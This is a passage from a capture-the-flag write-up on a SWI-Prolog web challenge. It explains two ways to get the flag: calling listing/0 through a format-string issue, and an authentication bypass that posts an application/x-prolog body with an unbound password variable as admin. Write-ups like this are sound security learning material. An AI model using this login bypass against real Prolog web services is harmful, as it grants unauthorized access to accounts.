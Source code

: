 Maybe we need to find prologue predicate that ends with `/0`? Searching around, I found [this](https://www.swi-prolog.org/pldoc/man?section=predsummary) and [this](https://www.swi-prolog.org/pldoc/man?section=library) page. Try and error, I found a good candidate that can be use to get our flag!

```
edit/0 == will open the editor of server.pl locally (Cannot use remotely I guess?)

listing/0 == lists all predicates defined 
```

Link to listing/0 predicate: https://www.swi-prolog.org/pldoc/man?predicate=listing/0

![image](https://hackmd.io/_uploads/SyxDPl3dA.png)

**ARBITRARY CONTENT-TYPE**

Another solution discussed in the discord server is not related to format string issue. I found some good reference in [here](https://swi-prolog.discourse.group/t/predicate-member-2-reflections-based-on-the-craft-of-prolog-by-richard-okeefe/6938)

If we look into `login` function, there is no `content-type` restrictions in here as well as the usage of `member()` to check the Users list.

```c 
login(Request) :-
    member(method(post), Request),
    http_read_data(Request, Data, []),
    ((
        member(username=Username, Data),
        member(password=Password, Data),
        users(Users),
        member(Username=Password, Users),
        http_session_retractall(_OldUsername),
        http_session_assert(username(Username)),
        http_redirect(see_other, '/greet', Request)
    );
```

By sending the following request, I assumed (I'm not really sure.. Could be wrong) it will use with the following check

```md
member(guest='password',[guest=guest,'AzureDiamond'=hunter2,admin=AdminPass]).

# Result
false.
```

![image](https://hackmd.io/_uploads/rJwJqbhuA.png)

But if we use content type `application/x-prolog`, we could set the password to *uninitialized* variable. This will let us to bypass the authentication as it will always set to true.

```md 
member(guest=Unknownvariable,[guest=guest,'AzureDiamond'=hunter2,admin=AdminPass]).

# Result
Unknownvariable = guest . (true?)
```

With this in knowledge, we could send the following data to login as admin and get the flag.

```
[username=admin,password=Unknownvariable].
```

![image](https://hackmd.io/_uploads/BJD1oZhO0.png)

![image](https://hackmd.io/_uploads/BkzZibn_C.png)
